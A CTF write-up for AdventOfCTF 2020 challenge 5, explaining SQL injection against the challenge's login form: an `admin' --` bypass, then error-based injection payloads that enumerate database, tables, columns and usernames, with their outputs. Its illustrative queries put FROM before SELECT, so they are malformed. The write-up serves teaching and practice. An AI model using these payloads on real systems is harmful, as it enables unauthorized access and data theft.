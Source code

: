 +++
author = "Maik de Kruif"
title = "Challenge 5"
subtitle = "Challenge 5 - AdventOfCTF"
date = 2020-12-05T08:57:31+01:00
description = "A writeup for challenge 5 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/080b5d5fcaf13167d2e7e8871fdc8ded.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 500

## Description

Again a login form stands in your way. What powerful 'hacker' tool will help you proceed?

Visit <https://05.adventofctf.com> to start the challenge.

## Finding the vulnerability

Upon opening the challenge website, we're, yet again, greeted with a login form. As the last few challenges used javascript I immediately opened the devtools to have a look at the sources. But, no javascript! This time it looks like the form is actually submitted. Below the form there is also some text: "A classic, with a twist.". When talking about forms, a classic exploit is SQL Injection. So let's try that.

### SQL Injection

My first try was to submit a quote `'` as the username and some garbage password. This is a common check for SQLi and if it works it throws an error:

```text
Error description: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'sd'' at line 1
```

But how does this work in the first place?

#### Background

When a login form on a website is submitted, the website often connects to a database to check the login credentials. On most website this database is a SQL database.

Here's an example of a query to check login credentials:

```sql
FROM `users` SELECT * WHERE `username`='' AND `password`=''
```

_Note: the backticks (\`) mean the content of it is a column in the database._

The username and password values are inserted in this query and if there is a result, the database will return it.

#### Vulnerability

Now that we know how it works, we can try to exploit it. Take my first input for example (`'`) and see what the resulting query would be.

```sql
FROM `users` SELECT * WHERE `username`=''' AND `password`='garbage'
```

The query becomes invalid as there is an unterminated string. So, how do we turn this query into one that logs us in as the admin?

## Solution

Firstly, I tried to use `' OR 1=1 -- ` as the username and, again, some garbage as the password. However, it didn't work. It didn't even return an error. So I guess this is where "A classic, with a twist." comes in. Next, I tried to just use `admin` as the username and end the query after it by inserting a comment (this is `--` in sql). The resulting input would become `admin' -- ` for the username, the password doesn't matter.

The resulting query would be this:

```sql
FROM `users` SELECT * WHERE `username`='admin' -- ' AND `password`='garbage'
```

As we can see, it now only checks the username. I submitted the form and, I got the flag! It is `NOVI{th3_classics_with_a_7wis7}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#5-6).

## EDIT

As [@credmp](https://twitter.com/credmp) correctly pointed out, this only works if you can guess the username. If you can't, you'll have to get it first. I'll explain how to do that here.

### Getting the database

As we can see the error on the page itself, we can use a query to give a result inside the error. For instance, to get the database I used the following input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `. This results into the following query:

```sql
FROM `users` SELECT * WHERE `username`='' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) as x FROM information_schema.tables GROUP BY x) as y) -- ' AND `password`=''
```

After submitting the form it gives us the following error:

```text
Error description: Duplicate entry 'testdb:1' for key 'group_key'
```

#### How does this work?

Firstly, I'll format the query for you:

```sql
FROM `users`
SELECT *
WHERE `username`='' AND (
  SELECT 1 FROM (
    SELECT COUNT(*), CONCAT(
      (
        SELECT database()
      ),
      0x3a,
      FLOOR(RAND(0)*2)
    ) AS x
    FROM information_schema.tables GROUP BY x
  ) AS y) -- ' AND `password`=''
```

Now let me explain this query.

We start with an `AND` to get another value, which is a nested SQL query. This query selects `1`, this is just because we actually need a value. Now we get to the important bit:

```sql
SELECT COUNT(*), CONCAT(
  (
    SELECT database()
  ),
  0x3a,
  FLOOR(RAND(0)*2)
) AS x
FROM information_schema.tables GROUP BY x
```

Here, we select `COUNT(*)` and a string `CONCAT()` with the alias `x`. This `CONCAT()` contains the SQL query we actually want to execute. I can, however, only return one row. The `CONCAT()` also contains `0x3a` which is ASCII for a `:` character so we know where the value we want ends and `FLOOR(RAND(0)*2)`. The purpose of it is to get a duplicate entry error in the `GROUP BY` as it will result in the following values:

```sql
> SELECT FLOOR(RAND(0)*2)x FROM information_schema.tables;
+---+
| x |
+---+
| 0 |
| 1 |
| 1 | <-- The error will occur here.
| 0 |
| 1 |
| 1 |
 ...
```

The error really occurs because of a bug in MySQL. The `COUNT(*)` and `GROUP BY` should give multiple rows as the output, however, MySQL throws an error.

The `FROM` in this query can be any table with three or more rows. `information_schema.tables` is just a common one.

Now we know the name of the database (`testdb`), we can get the tables in it.

### Getting the tables

We can only get the tables one by one (as I explained above) so we can use the following sub-query:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1
```

Converted to an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT table_name FROM information_schema.tables WHERE table_schema='testdb' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

_Note: to get next table, just edit the `LIMIT` to `1,1`, `2,1` and so on_

Which returns:

```text
Error description: Duplicate entry 'users:1' for key 'group_key'
```

Now that we know the table (`users`), we can get it's columns

### Getting the columns

A sub-query for columns could be the following:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1
```

Which converts to this input: `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

Which gives us (with other `LIMIT` as well):

```text
Error description: Duplicate entry 'USER:1' for key 'group_key'
Error description: Duplicate entry 'CURRENT_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'TOTAL_CONNECTIONS:1' for key 'group_key'
Error description: Duplicate entry 'username:1' for key 'group_key'
Error description: Duplicate entry 'password:1' for key 'group_key'
```

The first three we can just ignore as they are default metrics from MySQL. So our resulting columns would be `username` and `password`

### Getting its contents

Because we only care for the username, we can discard the password.

A simple `SELECT` query for the username would be:

```sql
SELECT username from users limit 0,1
```

Turing this into an input we get `' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT username from users limit 0,1),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- `

We get:

```text
Error description: Duplicate entry 'nottheuser:1' for key 'group_key'
Error description: Duplicate entry 'admin:1' for key 'group_key'
```

Which means our users are `nottheuser` and `admin`.
